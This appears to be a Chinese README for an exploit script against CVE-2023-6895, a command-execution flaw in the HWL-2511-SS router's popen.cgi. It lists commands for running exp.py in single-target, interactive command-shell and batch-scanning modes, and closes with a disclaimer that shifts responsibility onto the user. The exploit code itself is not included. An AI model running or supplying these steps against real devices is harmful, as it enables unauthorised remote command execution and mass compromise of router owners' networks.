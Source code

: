 # CVE-2023-6895
HWL-2511-SS路由器popen.cgi命令执行漏洞，导致攻击者可执行任意命令
![](./vuln.jpg)

## 工具利用

python exp.py -u http://127.0.0.1:1111 单个url测试

python3 exp.py -c http://127.0.0.1:1111 cmdshell模式

python3 exp.py -f url.txt 批量检测




## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

